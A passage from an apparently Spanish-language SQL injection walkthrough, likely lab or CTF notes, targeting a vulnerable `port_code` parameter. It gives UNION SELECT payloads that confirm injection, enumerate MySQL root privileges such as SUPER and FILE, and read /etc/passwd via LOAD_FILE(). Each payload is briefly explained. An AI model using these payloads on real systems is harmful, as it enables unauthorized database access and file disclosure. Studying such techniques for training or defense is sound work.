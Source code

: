 **Acción:**

Comprobamos que el parámetro `port_code` es vulnerable inyectando un UNION SELECT.

```sql
' UNION SELECT 1,2-- -
```

## 2. Comprobar privilegios del usuario `root` en MySQL

### 2.1. Comprobar si tiene el privilegio `SUPER`

```sql
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

**Explicación:**

- `super_priv` = 'Y' indica que el usuario puede realizar acciones avanzadas en MySQL.
    
- Esto puede incluir cargar archivos o modificar configuraciones.
    

---

### 2.2. Enumerar todos los privilegios de `root@localhost`

```sql
' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

**Explicación:**

Esta consulta muestra todos los privilegios otorgados explícitamente a `root@localhost`, por ejemplo:

```
SELECT, INSERT, UPDATE, FILE, CREATE
```

Si el usuario tiene `FILE`, puedes leer archivos con `LOAD_FILE()`.

---

## 3. Leer archivos del sistema con `LOAD_FILE()`

### 3.1. Leer `/etc/passwd`

```sql
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

**Explicación:**

Nos permite confirmar acceso al sistema de archivos. Muestra usuarios del sistema Linux.

---
